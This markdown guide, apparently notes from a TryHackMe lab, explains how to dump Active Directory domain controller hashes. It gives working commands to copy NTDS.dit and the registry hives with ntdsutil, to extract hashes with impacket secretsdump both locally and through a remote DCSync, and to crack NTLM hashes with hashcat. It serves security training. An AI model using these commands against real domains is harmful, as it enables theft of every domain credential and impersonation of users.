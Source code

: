 # Dumping Domain Controller Hashes: Local and Remote Methods

This guide covers the steps to dump Domain Controller hashes both locally and remotely.

---

## NTDS Domain Controller

**New Technologies Directory Services (NTDS)** is a database containing all Active Directory data, including objects, attributes, and credentials. The `NTDS.dit` data consists of three tables:

- **Schema table:** Contains types of objects and their relationships.
- **Link table:** Contains object attributes and their values.
- **Data table:** Contains users and groups.

By default, NTDS is located at `C:\Windows\NTDS` and is encrypted to prevent unauthorized extraction. The file is locked while Active Directory is running, but there are ways to obtain a copy. This guide discusses using `ntdsutil` and `Diskshadow` to copy the NTDS file and how to dump its contents. Decrypting NTDS requires the system Boot Key (stored in the `SECURITY` file), so you must also dump this file.

---

## Ntdsutil

`ntdsutil` is a Windows utility for managing and maintaining Active Directory configurations. It can be used to:

- Restore deleted objects in Active Directory
- Perform AD database maintenance
- Manage Active Directory snapshots
- Set Directory Services Restore Mode (DSRM) administrator passwords

[Microsoft documentation on ntdsutil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/ntdsutil)

---

## Local Dumping (No Credentials)

If you have administrator access to the domain controller (but no credentials), you can use Windows utilities to dump the NTDS file and crack it offline.

**Required files:**

- `C:\Windows\NTDS\ntds.dit`
- `C:\Windows\System32\config\SYSTEM`
- `C:\Windows\System32\config\SECURITY`

**PowerShell one-liner to dump NTDS using ntdsutil:**

```powershell
ntdsutil.exe "ac i ntds" "ifm" "create full c:\temp" q q
```

After running the command, check `C:\temp` for two folders: `Active Directory` and `registry`, which contain the required files. Transfer them to your attack machine and use `secretsdump.py` to extract hashes:

```bash
python3.9 /opt/impacket/examples/secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
```

---

## Remote Dumping (With Credentials)

To dump hashes remotely, you need credentials for a user with administrative access or special permissions (see DC Sync section).

### DC Sync Attack

The **DC Sync** attack allows an attacker with the following AD permissions to replicate domain credentials:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set

This attack can be performed using tools like Mimikatz or Impacket's `secretsdump.py`.

**Example command:**

```bash
python3.9 /opt/impacket/examples/secretsdump.py -just-dc THM.red/<AD_Admin_User>@MACHINE_IP
```

- `-just-dc`: Extracts NTDS data.
- `THM.red/<AD_Admin_User>`: Authenticated domain user (`domain/user`).

**To dump only NTLM hashes:**

```bash
python3.9 /opt/impacket/examples/secretsdump.py -just-dc-ntlm THM.red/<AD_Admin_User>@MACHINE_IP
```

---

## Cracking the Hashes

Once hashes are obtained, you can use them for impersonation or crack them with tools like Hashcat:

```bash
hashcat -m 1000 -a 0 /path/to/ntlm_hashes.txt /path/to/wordlist/such/as/rockyou.txt
```
- `-m 1000`: Windows NTLM hash mode

---